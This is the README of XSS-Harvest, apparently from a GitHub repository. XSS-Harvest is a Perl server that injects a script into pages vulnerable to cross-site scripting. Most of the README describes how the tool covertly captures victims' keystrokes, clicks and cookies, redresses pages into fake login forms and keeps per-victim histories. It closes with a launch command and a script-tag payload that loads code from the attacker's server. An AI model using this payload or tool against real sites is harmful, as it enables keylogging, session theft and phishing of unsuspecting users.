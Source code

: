 # XSS-Harvest
0.2.x
by Geoff Jones - 0x90.co.uk
http://www.0x90.co.uk/2011/07/harvesting-cross-site-scripting-xss.html

## About
XSS-Harvest is multi-threaded pre-forking web server written in Perl, and requires no dependencies other than a couple of common Perl modules; you do not need a web server or database to use this tool. Before going into the detail, I'll list the high level functionality below:

* Infection script adds relevant event listeners (keystrokes, onload() and mouse clicks) to the vulnerable page and sets up communication with the XSS-Harvest server.
* Any key entered will be sent covertly to the server.
* Any mouse click performed will be analysed and the data covertly sent to the server.
* Optionally 'redress' the vulnerable page to display a different page on the same subdomain - e.g. a login form.
* If redressing the victim's browser, allow subsequently loaded pages to be also 'infected' - assuming they don't break the same-origin policy (i.e. they're on the same subdomain).
* Keeps track of victims for the lifetime of the XSS-Harvest cookie (future visits are recognised as a returning victim).
* Each victim has a separate history file containing all events, cookies and keystrokes. 
* Server console displays real time data received (due to multi-threaded nature, keystrokes are displayed as '.' characters to avoid confusion).
* Tested in IE6-9 (reflected XSS protection in IE9 will limit exploitation to stored XSS only in most cases), FF5, Chrome and various mobile browsers (Safari and Android). Please let me know your success with other browsers.
* Overcomes browser oddities, such as Internet Explorer throttling requests to the same URL when exfiltrating keystrokes.

## Dependencies
Requires the following dependencies:
HTTP::Server::Simple::CGI, Digest::MD5, Time::Local, Getopt::Std, Net::Server::PreFork

sudo apt-get install libhttp-server-simple-perl
sudo apt-get install libdigest-md5-file-perl
sudo apt-get install libtime-local-perl
sudo apt-get install libnet-server-perl

## Usage
Start server (with redress:)

* ./xss-harvest.pl -l -r http://vulnerablepage.local/login.html

XSS:

* \<script src="http://\<serverip\>:\<serverport\>/i"\>\</script\>
